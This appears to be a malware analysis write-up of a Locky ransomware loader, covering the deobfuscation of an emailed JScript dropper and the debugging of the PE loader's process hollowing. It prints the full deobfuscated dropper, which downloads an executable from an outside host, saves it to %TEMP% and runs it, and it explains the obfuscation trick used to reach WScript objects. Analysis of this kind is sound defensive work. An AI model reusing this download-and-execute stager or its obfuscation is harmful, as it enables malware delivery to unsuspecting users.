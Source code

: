 # Locky Loader Analysis
Loader analysis of the ransomware thread (Locky family)

I will start my analysis from a zip file (appears to be mainly delivered by email) that contains 2 files:

    Warning/ticket_973359216.js
    Warning /822_ticket_295979844.lib
    

![Virustotal](https://github.com/invictus1306/LockyAnalysis/blob/master/05.jpg)

Let start with the analysis of the Jscript:

    Warning/ticket_973359216.js

![CreateProcess](https://github.com/invictus1306/LockyAnalysis/blob/master/04.jpg)

As you can see the code of the Jscript file is obfuscated, we look in more details into Jscript file for Manually De-Obfuscating. There is the function “KeepData” that essentially execute the unescape() command.

```
function keepData(th) {
    return unescape(th);
}
```

Then after unescape all content, and replace every variable with the defined values the code become almost clear. For example see follow code

```
noCloneChecked = (function nodeIndex(){}, 3);

handleObj = (function nodeIndex.elemLang(){var percent= []["constructor"]["prototype"]["sort"]["apply"]();

return percent;

}, "dy");
```

With this function you can create your object.

For example for invoke “Echo” Jscript function:

```
WScript.Echo(“data”)
```

You can use follow syntax:

```
test = nodeIndex.elemLang()
test["WScript"]["Echo"]("data");
```

This is the de-obfuscate code

```
noCloneChecked = (function nodeIndex(){}, 3);

handleObj = (function nodeIndex.elemLang(){var percent= []["constructor"]["prototype"]["sort"]["apply"]();

return percent;

}, "dy");

rjsonp = hasDuplicate = rquery = nodeIndex.elemLang();

radioValue = rquery["WScript"]["CreateObject"]("WScript.Shell"); //WScript.CreateObject("WScript.Shell")

opt = radioValue["ExpandEnvironmentStrings"]("%TEMP%/") + "test.scr"; // radioValue.ExpandEnvironmentStrings("%TEMP%") + "test.scr"

attrHandle = rquery["WScript"]["CreateObject"]("ADODB.Stream"); //WScript.CreateObject("ADODB.Stream")

attrHandle["mode"] = 3; //Indicates read/write permissions attrHandle.mode = 3

attrHandle["type"] = 1; //Evaluates CommandText as a textual definition of a command or stored procedure call. attrHandle.type = 1

scripts = ["Msxml2.ServerXMLHTTP .6.0", "Msxml2.XMLHTTP.6.0", "Msxml2.ServerXMLHTTP.3.0", "Msxml2.XML" + "HTTP.3.0", "Msxml2.XMLHTTP", "Microsoft.XMLHTTP"];

for (getElementsByClassName = 0; getElementsByClassName < scripts["length"]; getElementsByClassName++)

{

try {

what = hasDuplicate["WScript"]["CreateObject"](scripts[getElementsByClassName]); //WScript.CreateObject("...") for every scripts element

what["open"]("GET", "http://runningmoustache.com/zWbD_F.exe", false); // what.open(...)

what["send"](); // what.send()

break;

} catch (inArray) {}

}

while (what["readyState"] != 4) // value 4: ReadyStateComplete all the data has been received.

hasDuplicate["WScript"]["Sleep"](100); // WScript.Sleep(100)

if (what["status"] == 200) {

attrHandle["open"](); //attrHandle.Open()

attrHandle["Write"](what["responseBody"]); //attrHandle.Write(what.responseBody)

rjsonp["WScript"]["Sleep"](5000); //WScript.Sleep(5000)

attrHandle["SaveToFile"](opt, (232,77,231,2)); //attrHandle.SaveToFile(...)

rjsonp["WScript"]["Sleep"](5000); //WScript.Sleep(5000)

radioValue["Run"](opt); //radioValue.Run(opt)

} else {}
```
This is the deobfuscated file:

![JS file](https://github.com/invictus1306/LockyAnalysis/blob/master/jsDeo.js)

In a few words what that does the script is:

    HTTP GET request
    Download and save in %TEMP% path the executable file (file name: test.src)
    
As you have seen before, after the auto run of the JScript file, the test.src PE file, came download into %TEMP% folder.

It’s the time to analyze the test.src PE file.

When this file is launch you can see only one section:

![PE file](https://github.com/invictus1306/LockyAnalysis/blob/master/00.jpg)

Analyzing the behaviors, it possible understand that it is a loader, indeed after unpack/decrypt the original exe file in memory, the loaders usually launch a child process in suspend mode. But let’s go into the code, the first interesting API is CreateProcessA, then set a breakpoint

![CreateProcess](https://github.com/invictus1306/LockyAnalysis/blob/master/01.jpg)

As we expected another process in suspend mode is going to be created

![Other Process](https://github.com/invictus1306/LockyAnalysis/blob/master/02.jpg)

Then after re-allocate the memory with the size of the new exe, I except the overwrite or the allocation of extra memory of the new child process, with the decrypted code of the malware, in fact, going on with debugging you can find this API call

![Dump new process](https://github.com/invictus1306/LockyAnalysis/blob/master/03.jpg)

Then the memory area of the new child process begin to be allocated with the new code (the Locky ransomware)
